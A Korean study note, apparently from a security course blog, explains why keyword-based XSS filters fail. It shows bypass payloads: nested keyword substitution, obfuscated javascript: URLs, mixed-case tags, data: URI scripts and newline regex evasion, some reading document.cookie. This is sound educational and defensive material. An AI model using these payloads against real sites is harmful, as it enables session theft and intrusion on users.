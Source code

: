 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass (1)"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# Web Hacking Advanced(Client Side) - XSS Filtering Bypass

- [x] 문자열 치환 실습

## Exploit Tech : XSS Filtering Bypass - 1

\* 강의에서 소개되는 필터링은 모두 잘못된 방식의 필터링이며, XSS 취약점을 근본적으로 제거하기 위해서는 태그 삽입이 되지 않도록 처음부터 원인을 제거해야한다

### 불충분한 XSS 필터링

HTML에는 별다른 규율 없이 정립된 규칙들이 쌓여 이를 해석하는 소프트웨어 작성에 어려움을 더했으며, HTML의 일부 기능을 비활성화하고자 하는 XSS 필터링 또한 이에 포함된다. HTML에서 js 코드를 실행하거나 페이지에 변형을 가하는 방법은 여러가지가 있으며, XSS 필터링은 이를 모두 막아야한다. 안전하지 않은 코드를 실행할 수 있는 방법은 계속 증가하고 있으므로, XSS 필터링은 안전하다고 알려진 마크업만 허용하는 보수적인 방법을 취해야한다. 일부 문자열만을 바탕으로 필터링을 진행하면 허위양성 또는 허위음성이 발생하여 필터링 자체가 제대로 이루어지지 못할 수 있다.

### 이벤트 핸들러 속성

js 코드를 실행할 수 있는 html 태그로는 script 이외에도 여러 가지 가 있다. 태그의 속성값으로 스크립트를 포함할 수 있는 경우가 다수 존재하며, 대표적으로 이벤트 핸들러를 지정하는 on으로 시작하는 속성들이 있다. (*이벤트 핸들러 : 특정 요소에서 발생하는 이벤트를 처리하기 위해 존재하는 콜백 형태의 핸들러 함수) 따라서 이 안에 XSS 공격 코드를 삽입해두면 해당 이벤트가 발생했을 때 XSS 공격 코드가 실행된다. 

대표적인 이벤트 핸들러 + [etc](https://developer.mozilla.org/ko/docs/Web/Events)

|Event handler|Description|
|:---|:---|
|onload|태그가 요청하는 데이터를 로드한 후 실행|
|onerror|태그가 요청하는 데이터를 로드하는 데 실패 시 실행|
|onfocus|input 태그에 커서를 클릭하여 focus 상태가 되면 실행<br>autofocus 속성을 사용해 자동으로 focus 시키거나, URL의 해시에 input 태그의 id 속성값을 입력하여 포커스되도록 함|

### 문자열 치환

XSS 키워드를 필터링할 때 의심되는 구문을 거부하는 대신 단순히 치환 / 제거하는 방식의 필터링 관습이 존재하며, 이러할 경우 "scr*script*ipt"와 같이 제거되는 키워드를 중간에 삽입하여 우회할 수 있다. 따라서, 필터링 자체가 무력화되며 웹 응용 방화벽에서 다음과 같은 공격 페이로드를 탐지하지 못한다.

```javascript
(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
--> <img onerror=prompt(1) />
```

이에 대한 대안으로, 다음과 같이 문자열에 변화가 없을 때까지 치환을 진행하는 방식이 사용되기도 하지만, 특정 키워드가 최종 마크업에 등장하지 않도록 하는 데에는 효과적이지만 고려하지 못한 구문의 방어와 WAF 방어 무력화 등은 동일하다

```javascript
function replaceIterate(text) {
    while (true) {
        var newText = text
            .replace(/script|onerror/gi, '');
        if (newText === text) break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;script&gt;parent.alert(1)&lt;/script&gt;" />
```

### 활성 하이퍼링크

HTML 마크업에서 사용되는 URL들은 활성 콘텐츠를 포함할 수 있다. 이 중 javascript: 스키마에는 URL 로드 시 자바스크립느 코드를 실행할 수 있도록 하며, 다음 코드와 같이 URL을 속성값으로 받는 a 태그나 iframe 태그 등에 사용할 수 있다. 이 때문에 XSS 키워드를 필터링할 때, javascript: 스키마를 사용하지 못하도록 필터링 하는 경우가 존재한다.

```html
<a href="javascript:alert(document.domain)">Click me!</a>
<iframe src="javascript:alert(document.domain)">
```

이러한 경우에는 브라우저들이 URL을 사용할 때 거치는 과정 중 하나인 정규화를 이용해 우회할 수 있는 경우가 존재하는데, 정규화는 동일한 리소스를 나타내는 서로 다른 URL을 통일된 형태로 변환하는 과정으로, \x01, \x04와 같은 특수문자들이 제거되고, 스키마의 대소문자가 통일된다. 

```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```

태그의 속성 내에서 HTML Entity Encoding을 사용하면 javascript: 스키미나 이외의 XSS 키워드를 인코딩하여 필터링을 우회하는 경우가 존재한다. 아래는 이를 통한 우회 예시이다.

```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```

js 에서는 URL 객체를 통해 URL을 직접 정규화할 수 있으며, protocol, hostname 등 URL의 각종 정보를 추출할 수 있다. XSS 필터링 우회 공격 구문을 작성하기 위해 직접 URL을 정규화하며 테스트하는 것이 가능하다

```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)')
--> "javascript:alert"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

### 태그와 속성 기반 필터링

단순히 태그나 속성을 바탕으로 필터링을 하게 되면 우회가 간으한 경우가 많다

1) 대문자 혹은 소문자만을 인식하는 필터 우회

```javascript
x => !x.includes('script') && !x.includes('on')
```

위와 같이 특정 키워드의 대소문자를 모두 검사하지 않을 경우, 다음과 같이 이를 우회할 수 있다

```html
<sCRipT>alert(document.cookie)</scriPT>
<img src=x: oneRroR=alert(document.cookie) />
```

---

2) 잘못된 정규표현식을 사용한 필터 우회

일반적으로 키워드를 필터링할 때에는 정규표현식을 이용하는데, 이에 문제가 있는 경우 정규표현식을 만족하면서 XSS 공격 구문을 삽입하는 것이 가능하다. 

다음과 스크립트 태그 내에 데이터가 존재하는 지 검사하는 정규표현식의 경우, src 속성을 통해 데이터를 입력하는 방식을 통하여 우회가 가능하다.

```javascript
x => !/<script[^>]*>[^<]/i.test(x)
```

```html
<script src="data:,alert(document.cookie)"></script>
```

또한 , 다음과 같이 img 태그에 on 이벤트 핸들러가 존재하는 지 검사하는 정규표현식의 경우, 멀티라인에 대한 검사가 존재하지 않기 때문에 줄바꿈문자를 이용해 우회할 수 있다.

```javascript
x => !/<img.*on/i.test(x)
```


```html
<img src=""\nonerror="alert(document.cookie)"/>
```
